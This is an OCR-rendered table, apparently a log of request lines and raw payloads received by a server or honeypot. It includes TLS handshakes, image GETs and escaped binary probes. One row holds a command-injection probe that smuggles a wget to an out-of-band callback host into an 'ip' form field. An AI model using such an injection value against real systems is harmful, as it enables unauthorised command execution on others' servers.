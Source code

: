 | 162 |                     1 | \x00\x0E8\x96\x00f\xB8\xB2\x16}H\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                             |
| 163 |                     1 | mac=1&ip=127.0.0.1|wget cufanednlodcre1u5ht05e4bdkahyuxpm.oast.site                                                                                                                                                                                                                                                                                                                                              |
| 164 |                     1 | GET /socket.io/1/?t=1738509299623 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                       |
| 165 |                     1 | GET /Media/Images/A3C3E87E.jpg HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                          |
| 166 |                     1 | GET /Media/Images/1801359D.PNG HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                          |
| 167 |                     1 | \x80\x00\x00(\xCA\xFE\xCA\xFE\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x1B9\x00\x00\x00\x01\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                       |
| 168 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03qS\x1C\xCF\x86\xC8\xE9\x8FG$X\x1D\x01\x9D\x1A$A\xAA\x02\x19\xCAoY9\xA7\xA4Z\x8Ap\xE1\xA7-\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                |
| 169 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x1FP8\x80\x9F\x86\x07+O\xC4\x95\xDF[\xE0-4\xB7aj\x95M\xA7\x97\xF8\x12<\x8E\x8D;=\xDER\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                   |
| 170 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03(n\x12\x97\xC2b2\xC7<\xCEL\x18\xD1z(\xE9\xBC\x84\xE4\x82'\xED\x999\x00\xB9\xC9\xDB\xDA[\xA0\xA0 \xF2^\x1D\x8A\x8E;\xA0\xAA\xFB}\xC6u\xC8&\xAC\xC5\x8B\x15&\xBF&\xC3\xEC\x88B?[\xF5\x8D[8;\x00&\xCC\xA8\xCC\xA9\xC0/\xC00\xC0+\xC0,\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                       |
| 171 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03H\xC7.\xB0\x10k\x93!\x9C\x1CFb\xFD\xB2\xA8\x22\xBAZ\x8E\x949\xFBn\xA2U\x81/\xE5\xC5\x9B\xA6\xFE \x14\x1C\x88\xDA\x7F\xEDu\xDBOue\x9Cc\x99\xC7*(uL\xC6\xE0\x03\x86\x85f\xA6a\x01|\xBF\xD2\xA5\x00&\xCC\xA8\xCC\xA9\xC0/\xC00\xC0+\xC0,\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                    |
| 172 |                     1 | \x02lp                                                                                                                                                                                                                                                                                                                                                                                                           |
